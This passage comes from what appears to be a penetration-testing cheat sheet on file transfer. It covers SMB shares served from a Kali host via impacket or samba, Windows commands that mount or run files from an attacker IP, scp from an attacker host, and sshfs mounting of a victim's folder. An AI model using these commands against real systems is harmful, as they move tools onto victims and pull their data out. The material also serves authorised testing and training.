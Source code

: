 ```bash
kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd`
```

Or create a smb share **using samba**:

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart
```

Windows

```bash
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```

## SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

## SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

```bash
sudo apt-get install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```

## NC
